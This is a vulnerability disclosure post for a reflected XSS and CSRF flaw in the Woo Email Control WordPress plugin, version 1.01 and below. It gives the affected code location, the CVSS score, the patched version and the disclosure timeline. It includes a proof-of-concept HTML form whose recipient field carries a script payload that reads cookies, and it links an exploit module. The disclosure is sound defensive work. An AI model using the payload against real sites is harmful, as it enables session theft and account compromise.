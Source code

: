```yaml
---
layout: post
title: Woo Email Control <= 1.01 Reflected XSS Disclosure
date: 2016-07-19
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - woo email control
  - reflected xss
excerpt: Due to a lack of encoding and CSRF mitigation in the `test_email` function found on line 106 of `classes/class-wooctrl.php`, it is possible to automate a request to the AJAX handler for the `wooctrl_send_test_email` action which will reflect the specified script back to the end user.
---
```

## Homepage
[https://wordpress.org/plugins/woo-email-control/](https://wordpress.org/plugins/woo-email-control/)

## Overview
Due to a lack of encoding and CSRF mitigation in the `test_email` function found on line 106 of `classes/class-wooctrl.php`, it is possible to automate a request to the AJAX handler for the `wooctrl_send_test_email` action which will reflect the specified script back to the end user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.01 and below

## Solution
Upgrade to version 1.02

## Proof of Concept
```xml
<form method="post" action="http://<target>/wp-admin/admin-ajax.php?action=wooctrl_send_test_email">
    <input type="text" name="email_class" value="WC_Email_Customer_New_Account">
    <input type="text" name="recipient" value="user@user.com<img src=x onerror=alert(document.cookie)>">
    <input type="submit" value="Test">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/woo\_email\_control\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/woo_email_control_reflected_xss_shell_upload.rb)

## WPVDB-ID
8559

## Disclosure Timeline
* **2016-07-18**: Identified vulnerability, contacted vendor with POC and a patch.
* **2016-07-18**: Vendor released patch.
